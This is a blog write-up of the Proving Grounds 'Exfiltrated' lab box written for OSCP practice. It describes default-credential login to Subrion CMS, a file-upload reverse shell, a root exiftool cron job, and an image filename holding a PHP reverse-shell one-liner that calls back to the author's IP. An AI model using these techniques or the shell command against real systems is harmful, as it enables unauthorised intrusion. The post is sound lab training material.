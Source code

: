 ```yaml
---
layout: post
title: Exfiltrated - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Exfiltrated Box from Proving Grounds
image: /assets/images/Exfiltrated/subrion.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null, LainKusunagi]
---
```



Ok, still working through TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#) with another [Proving Grounds](https://www.offsec.com/labs/) box. This one is called "Exfiltrated." It is also on LainKusanagi's [list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/), which I saw on Reddit, so I've been going through those as well. Nice to have some overlap. 

As usual, let's kick things off with a basic nmap scan which revealed these ports:

PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http

Since we're usually not going to find anything on port 22 with a lab like this, I went ahead and got started checking out the web page on port 80 while I ran a ful port scan (which showed nothing) and enumerated directories. Right off the bat, I could see that putting the IP in the URL bar caused a changed to exfiltrated.offsec, so I went ahead and added that to my /etc/hosts file to help things run a little bit smoother. 

![Exfiltrated Kickstart](/assets/images/Exfiltrated/kickstart.png){: .center-aligned width="600px"}

Looks like we have another CMS, and right ahead we can see that there is a login page. However, we can also see from out directory scan that we have page called exfiltrated.offsec/panel/blog/register which states explicitly that it is the Subrion Admin Panel. 

![Exfiltrated Admin](/assets/images/Exfiltrated/subrion.png){: .center-aligned width="600px"}

I decided to focus my efforts there, but since I don't have any creds yet, it was time to look around for public exploits for Subrion in particular. 

![Exfiltrated Searchsploit](/assets/images/Exfiltrated/searchsploits.png){: .center-aligned width="600px"}

Since the admin page tells us we are on v4.2.1, I checked those out first. XSS might not be super helpful here as we can't really rely on any other users to interact with the system, so that leaves use with the Abitrary File Upload and the CSRF which apparently adds an admin user. Typically for a box like this, I would expect a File Upload exploit to help us get a reverse shell, but when I tried to run it, it required authentication. That's too bad, but we have the CSRF for that. After checking that exploit briefly, I figured it might make sense to at least check for a few easy logins first before trying to run it. I tried admin:admin, and we were in immediately. I should note that I first searched "Subrion Default Creds" in google, and I see this as the third result:

![Exfiltrated Google](/assets/images/Exfiltrated/google.png){: .center-aligned width="600px"}

I didn't click on it to try, but it definitely let me know I was on the right track. Shout out to [jayngng](https://jayngng.github.io/) lol. At this point I knew I could use those creds for the File Upload vulnerability, so I got that working and got a reverse shell. 

![Exfiltrated Google](/assets/images/Exfiltrated/shellcaught.png){: .center-aligned width="600px"}

Unfortuanately this was not a particularly interactive shell. I couldn't change directories, and while I could download files from my python server, I couldn't execute them, or apparently even change permissions on them so they were executable. After shamefully long time looking around, I realized that if I could upload a file remotely and execute it, I could also probably just upload a shell through the admin panel myself and execute it from there. I did take a detour and check out the SQL tool available in the admin panel, even finding a password and taking a while to crack it in case it helped me get in through ssh. 

![Exfiltrated SQL Tool](/assets/images/Exfiltrated/sqlpage.png){: .center-aligned width="600px"}

Guess what that that bcrypt hash cracks to? Yep, admin. Oops. No worries, I did make my way to the Uploads page and try a few reverse shells. Eventually I went with one from [Ivan Sincek](https://github.com/ivan-sincek/php-reverse-shell) I found on [revshells.com](https://www.revshells.com/) since I've used it before, and it's pretty stable. I also used the .phar extension when I uploaded it because that's what the File Upload exploit used. From there I was able change permissions to linpeas and run it. One that that stuck out was this cronjob:
<br>
| root	bash /opt/image-exif.sh |
<br>

I checked out the script, and it looked like this: 

    #! /bin/bash
    #07/06/18 A BASH script to collect EXIF metadata 
    
    echo -ne "\\n metadata directory cleaned! \\n\\n"
    
    
    IMAGES='/var/www/html/subrion/uploads'
    
    META='/opt/metadata'
    FILE=`openssl rand -hex 5`
    LOGFILE="$META/$FILE"
    
    echo -ne "\\n Processing EXIF metadata now... \\n\\n"
    ls $IMAGES | grep "jpg" | while read filename; 
    do 
        exiftool "$IMAGES/$filename" >> $LOGFILE 
    done
    
    echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
<br>

I analyzed it for a little bit and realized it was taking jpg's from the uploads folder, reading the file name, and then doing something, but I wasn't sure what. So I uploaded a picture to see, did some googling, and realized that it was just taking the filename and turning it into a random hex code to store in the /opt/metadata folder. At this point I figured I could just upload a picture with a shell code as the name, and the exiftool would read and execute. That turned out not to be true, but I did upload a picture of Orville Redenbacher named, "php -r '$sock=fsockopen("$myIP",4444);exec("sh <&3 >&3 2>&3");'" before I realized it. I did a little more googling, and realized there were a few public exploits for exiftool. I pulled [this one](https://www.exploit-db.com/exploits/50911) from exploit-db, but I couldn't get it working. I did a little more googling, and found a re-written version of the same exploit which checked for dependencies and suggested missing ones. Helpful!

![Exfiltrated Exploit Dependencies](/assets/images/Exfiltrated/dependencies.png){: .center-aligned width="600px"}

So I installed those and ran the exploit again. 

![Exfiltrated Proof](/assets/images/Exfiltrated/proof.png){: .center-aligned width="600px"}

Boom. Overall it was a pretty simple box, but it was a helpful exercise in reading carefully and being patient because I did have to make a few different attempts at basically every step. One thing to note - there's two flags on this machine. If you want to get both, you need to check the user's home directory which I was only able to do after rooting the machine. Til next time. 
